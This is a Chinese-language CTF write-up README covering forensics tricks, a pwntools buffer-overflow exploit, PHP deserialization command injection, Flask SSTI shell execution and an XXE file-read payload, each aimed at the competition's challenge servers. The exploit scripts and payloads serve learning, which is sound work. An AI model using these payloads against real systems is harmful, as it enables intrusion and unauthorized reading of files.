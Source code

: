 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

### 0x01 (session)

用brup抓包

觀察提示的使用者 clara 的封包

=PZge c JryZ l TvNv a Fbgs r eBYt a

只是使用者名稱混雜一些字元

於是把clara的部分admin即可

改完後 `=PZgeaJryZdTvNvmFbgsieBYtn`

requestt出去就拿到flag了

### 0x02 (serialize)

將`__wakeup`中的this改成想要執行的指令(wakup函式在反序列化時一定會執行)

```php
<?php

class MyFirstCTF {
    protected $test = "CTF";
    function __wakeup()
    {
        // print "Wake up yo!<br>";
        // system("echo ".$this->test);
    }
}
$obj = new MyFirstCTF();
$obj->test=";ls";
$ser = serialize($obj);

printf($ser);


// $input = $_GET['str'];
// $kb = unserialize($input);
?>
```
print出來的字串是`O:10:"MyFirstCTF":1:{s:4:"test";s:3:";ls";}`

但是丟出去之後沒反應

猜測應該是protected的關係

[參考這篇文章](https://www.cnblogs.com/Mrsm1th/p/6835592.html)

所以要加 `\00*\00` 並且加上3(長度) 變成 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:3:";ls";}`

噴出 `Th1s_1S_f1ag__________________y0 index.html index.php`

再丟一波 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:37:";cat Th1s_1S_f1ag__________________y0";}`

解答

文章重點

不同類型變數序列化的值不一樣 但是看起來沒差 以protected 因為是null byte 所以要自己加 '\00*\00' 長度多3
```
private的参数被反序列化后变成 \00test\00test1 
public的参数变成 test2   p
rotected的参数变成 \00*\00test3 
```

### 0x03 (SSTI)

從網頁完全看不出是GET哪個變數

看了幾篇教學是用name當範例

於是

140.110.112.29:1008?name=123

結果有反應(通靈ㄏㄏ)

先確定是用{{}}來印出變數 (每一種模板不同)

140.110.112.29:1008/?name={{7*7}}

140.110.112.29:1008?name={{request.environ}}

發現是flask

於是

`http://140.110.112.29:1008/?name={{ config['RUNCMD']('ls -alh',shell=True) }}`

`http://140.110.112.29:1008/?name={{ config['RUNCMD']('cat flag',shell=True) }}`

[參考文章](https://hellohxk.com/blog/ssti/)

### 0x04 (XXE)

GET用240610708來繞過

丟以下data進post內容
```
<abcdef>
 <MyFirstCTF>Hello</MyFirstCTF>
</abcdef>
```
XML解析有回應

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE yiyu [ <!ELEMENT methodname ANY > 
<!ENTITY xxe SYSTEM "file:///flag" >]> 
<methodcall> 
<MyFirstCTF>&xxe;</MyFirstCTF> 
</methodcall>
```
flag的實際路徑亂猜的 結果就中了ㄏㄏ

[參考文章](http://www.freebuf.com/column/156863.html
)
